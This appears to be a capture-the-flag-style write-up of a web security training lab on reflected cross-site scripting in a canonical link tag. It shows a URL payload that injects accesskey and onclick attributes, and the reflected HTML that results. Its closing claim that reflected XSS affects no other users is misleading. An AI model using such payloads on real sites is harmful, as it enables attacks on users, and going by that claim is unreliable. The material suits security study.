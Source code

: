 ### Lab: Reflected XSS in canonical link tag

This lab reflects user input in a canonical link tag and escapes angle brackets.

To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.

To assist with your exploit, you can assume that the simulated user will press the following key combinations:

- ALT+SHIFT+X
- CTRL+ALT+X
- Alt+X

Please note that the intended solution to this lab is only possible in Chrome.

_____

Analysis and Exploit:

1. POSTed a test comment and used BurpSuite to find where the user input was reflected:
```html
<section class="comment">
    <p>
        <img src="/resources/images/avatarDefault.svg" class="avatar">                            <a id="author" href="http://test">attacker</a> | 27 April 2023
   </p>
    <p>Test comment #1 &lt;TAG&gt;</p>
    <p></p>
</section>
```

2. Appending the payload ```?%27accesskey=%27x%27onclick=%27alert(1)``` to the URL ```https://[LAB-ID]].web-security-academy.net/``` results in the payload being reflected in the HTML header of the home page 
```html
<link rel="canonical" href='https://0a900001038b810781282aec002700f9.web-security-academy.net/?'accesskey='x'onclick='alert(1)'/>
```

3. Pressing the key combination ALT+SHIFT+X (on Windows) triggers the _onclick_ event and the alert pops up.  

Since it is a reflected XSS, the payload lives in the browser and does not impact any other user browsing the website.  

